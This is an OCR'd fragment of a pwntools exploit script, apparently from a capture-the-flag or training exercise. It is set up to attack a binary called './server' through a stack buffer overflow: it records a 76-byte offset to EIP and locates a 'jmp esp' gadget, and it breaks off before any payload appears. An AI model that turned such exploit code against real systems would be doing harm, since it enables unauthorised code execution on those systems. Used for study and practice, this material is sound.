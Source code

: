       # Allows you to switch between local/GDB/remote from terminal
      def start(argv=[], *a, **kw):
          if args.GDB:  # Set GDBscript below
              return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
          elif args.REMOTE:  # ('server', 'port')
              return remote(sys.argv[1], sys.argv[2], *a, **kw)
          else:  # Run locally
              return process([exe] + argv, *a, **kw)
      
      # Specify GDB script here (breakpoints etc)
      gdbscript = '''
      init-pwndbg
      continue
      '''.format(**locals())
      
      # Binary filename
      exe = './server'
      # This will automatically get context arch, bits, os etc
      elf = context.binary = ELF(exe, checksec=False)
      # Change logging level to help with debugging (error/warning/info/debug)
      context.log_level = 'debug'
      
      # ===========================================================
      #                    EXPLOIT GOES HERE
      # ===========================================================
      
      io = start()
      
      # Offset to EIP
      padding = 76
      
      # Assemble the byte sequence for 'jmp esp' so we can search for it
      jmp_esp = asm('jmp esp')
      jmp_esp = next(elf.search(jmp_esp))
      